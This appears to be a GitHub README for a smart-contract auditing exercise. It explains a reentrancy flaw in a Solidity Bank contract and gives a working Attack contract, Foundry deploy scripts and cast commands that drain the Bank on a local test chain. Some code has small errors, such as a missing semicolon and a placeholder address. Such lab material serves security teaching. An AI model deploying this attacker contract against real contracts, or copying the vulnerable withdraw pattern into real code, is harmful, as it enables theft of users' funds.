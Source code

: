 # Web3eg-Smart-Contract-Auditor-Reentrancy-
- The provided Bank contract is vulnerable to a reentrancy attack. This vulnerability occurs because the contract updates the user's balance (balances[msg.sender] = 0) after sending Ether to the user. An attacker can exploit this by recursively calling the withdrawEth function before the balance is updated, draining the contract's funds.

```solidity
//SPDX-Liecense-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank{

    mapping(address =>uint256) public balances;

    function depositEth() payable{
        balances[msg.sender] += msg.value;
        
    }

    function withdrawEth() public{
        uint amount = balances[msg.sender];
        (bool sent,) = msg.sender.call{value : amount}("");
        require(sent,"Failed to send Ether");

        balances[msg.sender] = 0 ;
    }
}
```

- Below, I'll explain how to exploit this vulnerability and provide an example of an attacker contract that performs the reentrancy attack.
  The withdrawEth function has the following vulnerable logic:
   It checks the user's balance: uint amount = balances[msg.sender];
   It sends Ether to the user: msg.sender.call{value: amount}("").
   It updates the user's balance to 0: balances[msg.sender] = 0.
  - Contract  To Attack 
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "src/Bank.sol"
contract Attack {
    Bank public bank;

    constructor(address _bankAddress) payable {
        bank = Bank(_bankAddress);
    }

    // Fallback function to receive Ether and initiate reentrancy
    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdrawEth();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 Ether");
        bank.depositEth{value: 1 ether}();
        bank.withdrawEth();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Explanation of the Attack Flow:
The attack function deposits 1 Ether into the Bank contract.
The attack function calls withdrawEth, which sends 1 Ether back to the Attack contract.
The receive function in the Attack contract is triggered, and it recursively calls withdrawEth again before the balance is set to zero.
This process repeats until the Bank contract is drained of its Ether.

- Script To Deploy Bank contract
  
```solidity

//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Bank.sol";

contract DeployBank is Script{

    function run() external {
        vm.startBroadcast();
        Bank bank = new Bank();
        vm.stopBroadcast();
       
    }
}
```
- Script To Deploy Attack Contract With Address Of Bank Contract
```solidity
//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Attack.sol";

contract DeployAttack is Script{

    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(address(Bank Contract Address));
        vm.stopBroadcast();
       
    }
}
```
- Steps with Command
  
``` cast send <BANK_CONTRACT_ADDRESS> --value 10ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast send <ATTACK_CONTRACT_ADDRESS> "attack()" --value 1ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast call <ATTACK_CONTRACT_ADDRESS> "getBalance()" --rpc-url http://127.0.0.1:8545 ```

``` cast balance <BANK_CONTRACT_ADDRESS> --rpc-url http://127.0.0.1:8545 ```


